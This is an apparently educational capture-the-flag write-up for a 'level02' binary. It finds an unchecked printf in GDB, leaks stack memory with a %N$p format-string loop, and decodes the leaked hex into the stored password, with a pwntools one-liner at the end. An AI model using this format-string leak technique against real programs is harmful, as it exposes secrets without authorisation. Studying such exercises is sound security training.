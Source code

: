# Level02

First step - testing the program

    $ ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: coucou
    --[ Password: coucou
    *****************************************
    coucou does not have access!

Ask a username and password

Start in GDB

Lot of things, fopen and fread on the password file. And we can see a format string at `main+654`. The printf call a variable directly

   0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]
   0x0000000000400a9a <+646>:	mov    rdi,rax
   0x0000000000400a9d <+649>:	mov    eax,0x0
   0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>

Try to print the stack with this format string

    $ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done

    1 - 0x7fffffffe3e0 does not have access!
    .....
    22 - 0x756e505234376848 does not have access!
    23 - 0x45414a3561733951 does not have access!
    24 - 0x377a7143574e6758 does not have access!
    25 - 0x354a35686e475873 does not have access!
    26 - 0x48336750664b394d does not have access!
    .....
    40 - 0x2900000000 does not have access!
    41 - 0x602010 does not have access!

We can see something interesting starting at position 22, like a long string

Convert the strings in hex

    $ python -c 'print "756e505234376848".decode("hex")[::-1]'
    Hh74RPnu
    $ python -c 'print "45414a3561733951".decode("hex")[::-1]'
    Q9sa5JAE
    $ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
    XgNWCqz7
    $ python -c 'print "354a35686e475873".decode("hex")[::-1]'
    sXGnh5J5
    $ python -c 'print "48336750664b394d".decode("hex")[::-1]'
    M9KfPg3H

It's very similar to a password, concate all the strings and try

`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

Good!

We can do it faster with the python pwntools library

    python -c 'from pwn import *; print p64(0x756e505234376848) + p64(0x45414a3561733951) + p64(0x377a7143574e6758) + p64(0x354a35686e475873) + p64(0x48336750664b394d)'
